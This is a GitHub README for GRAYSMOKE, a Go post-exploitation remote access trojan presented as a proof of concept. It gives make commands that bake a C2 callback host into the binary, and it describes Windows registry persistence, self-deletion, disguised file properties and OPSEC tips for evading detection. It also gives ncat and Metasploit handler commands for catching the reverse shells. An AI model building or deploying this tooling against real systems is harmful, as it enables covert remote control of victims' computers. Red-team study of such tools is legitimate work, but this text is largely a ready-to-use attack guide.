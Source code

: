 ## GRAYSMOKE
[![License](https://img.shields.io/badge/license-MIT-_red.svg)](https://opensource.org/licenses/MIT)
[![Go Report Card](https://goreportcard.com/badge/github.com/schwartz1375/graysmoke)](https://goreportcard.com/report/github.com/schwartz1375/graysmoke)

GRAYSMOKE is golang cross-platform post exploitation RAT poof of concept (POC).

## Features
* Cross-platform RAT, call backs to either to a ncat listener or Metasploit
* TLS encrypted in transit with server finger print embedded in the client to prevent MiTM on the self-signed certificate
* Supports fully qualified domain names (FQDN), and both IPv4 and IPv6 for parameters to build the binary and callbacks
```
make macos64 HOST=c2.example.com PORT=8080 PURGE=flase DELAY=0
make macos64 HOST="[::1]" PORT=8080 PURGE=flase DELAY=0
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=0 INSTALL=true
callback [::1]:8080 sleep 10
callback 127.0.0.1:8080
```
* Supports sleeping (close the TLS TCP session) for a user specified time with automatic jitter
* Supports switching callback to a different C2
* On Linux it supports purging its self after the program exits
* Going beyond just ```go build``` 
    * Trimpath build flag, removes all file system paths from the compiled executable
    * ldflags "-s -w" 
        * -s Omit the symbol table and debug information.
        * -w Omit the DWARF symbol table.
 
* Windows specific:
    * Supports custom Microsoft Windows File Properties/Version information and icon (see ```resource/[icon.ico or verioninfo.json]```)
    * Has the persistence ability (copies itself to a hidden& archived folder and uses a registry key see 
 ```installer/installer_windows.go```) 

## Dependices
* [Go](https://golang.org/) 1.16+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource information to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment these lines out in the Makefile.
* Packers, consider using a packer such as UPX for a smaller binary

## How to build
To get the POC working you shouldn't have to modify anything other than leveraging ```make``` with this with appropriate target and options (see the Makefile for details).  Note, you may also need to run "make depends" first to generate the generate self-signed certificate. 

* HOST - The host parameter is the IPaddr or FQDN for the C2 server (where you want the RAT to callback to).
* DELAY - Time in seconds before establishing the instal calling back.  Note that automatic jitter is added to the callback sleep commands when inter acating with GShell (e.g. ```callback 127.0.0.1:8080 sleep 60```) but not delay
* PURGE - Windows does not support windows.Unlink(file) on its self, so ```PURGE=false```. Lastly while possible it is recommended to NOT set both PURGE and DELAY simultaneously (e.g. PURGE=true and DELAY=10) for macOS Big Sur as this will result in unexpected behavior.  
* INSTALL -On macOS and Linux do not have a native install/persistence options so ```INSTALL=false``` is set in the Makefile, thus there is no reason to pass it on the build line.  

Examples
```
make depends [builds self-signed certificate]]
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=0 INSTALL=true
```
The system supports ```make clean ``` note that make clean NOT delete the self-signed certificate (server pem & key file)]

More examples 
```
make linux64 HOST=192.168.221.128 PORT=8080 PURGE=true DELAY=10  
make macos64 HOST=192.168.221.128 PORT=8080 PURGE=flase DELAY=0
make macos64 HOST="[::1]" PORT=8080 PURGE=flase DELAY=0
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=0 INSTALL=true
make windows64 HOST=192.168.221.128 PORT=8080 DELAY=60 INSTALL=true
```

### On The Target Host (Post Exploit)
Execute the binary on the target and watch for the call back to the HOST.  Note the build outputs to graysmoke\bin directory

### C2 Server
There are two options, one is leveraging ncat, the other is the metasploit framework:

* Ncat
```ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 8080```

* Metasploit
Combine the server key and server pem file into one 

    ```cat server.key >> server.pem```

    This will be needed when setting ```HandlerSSLCert``` option

    Start metasploit ```msfconsole```

    ```
    msf5 > use exploit/multi/handler
    msf5 > set payload python/shell_reverse_tcp_ssl
    msf5 > set HandlerSSLCert ./server.pem
    msf5 > set stagerverifysslcert true 
    msf5 > set lhost 0.0.0.0  
    msf5 > set lport 8080
    msf5 > exploit -j
    ```
    The reason we set the ```stagerverifysslcert true ``` is to enable [TLS Certificate Pinning](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-HTTP-Communication#tls-certificate-pinning)

## OPSEC
Things to consider
* The name of the binary
* The binary has multiple log.Println()
* Windows specific:
    * Persistence mechanism
    * The icon 
    * The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile

